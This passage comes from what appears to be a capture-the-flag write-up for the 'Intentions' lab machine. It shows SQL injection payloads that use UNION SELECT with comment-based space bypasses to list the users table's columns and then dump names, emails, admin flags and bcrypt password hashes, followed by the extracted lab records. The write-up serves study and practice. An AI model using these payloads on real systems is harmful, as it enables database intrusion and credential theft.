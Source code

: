                 "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            },
            {
                "id":1,
                "file":"intentions",
                "genre":"users",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            }
        ]
    }



The only database is `intentions`, and there are four tables:
`gallery_images`, `personal_access_tokens`, `migrations`, and `users`.

The most immediately interesting table is `users`. I'll update my genres
to list the columns in that table:



    ')/**/UNION/**/SELECT/**/1,2,column_name,4,5/**/from/**/information_schema.columns/**/where/**/table_name='users'#



This returns `id`, `name`, `email`, `password`, `created_at`,
`updated_at`, and `genres`. I'll update my query to get all of the
interesting information in one column using `concat`:



    ')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',admin,':',password,':',genres),4,5/**/from/**/users#



I get the following users:


    steve:steve@intentions.htb:1:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature
    greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature
    Melisa Runolfsson:hettie.rutherford@example.org:0:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:food,travel,nature
    Camren Ullrich:nader.alva@example.org:0:$2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2:food,travel,nature
    Mr. Lucius Towne I:jones.laury@example.com:0:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae:food,travel,nature
    Jasen Mosciski:wanda93@example.org:0:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:food,travel,nature
    Monique D'Amore:mwisoky@example.org:0:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7.:food,travel,nature
    Desmond Greenfelder:lura.zieme@example.org:0:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2:food,travel,nature
    Mrs. Roxanne Raynor:pouros.marcus@example.net:0:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO:food,travel,nature
    Rose Rutherford:mellie.okon@example.com:0:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m:food,travel,nature
    Dr. Chelsie Greenholt I:trace94@example.net:0:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W:food,travel,nature
    Prof. Johanna Ullrich MD:kayleigh18@example.com:0:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi:food,travel,nature
    Prof. Gina Brekke:tdach@example.com:0:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.:food,travel,nature
    Jarrett Bayer:lindsey.muller@example.org:0:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS:food,travel,nature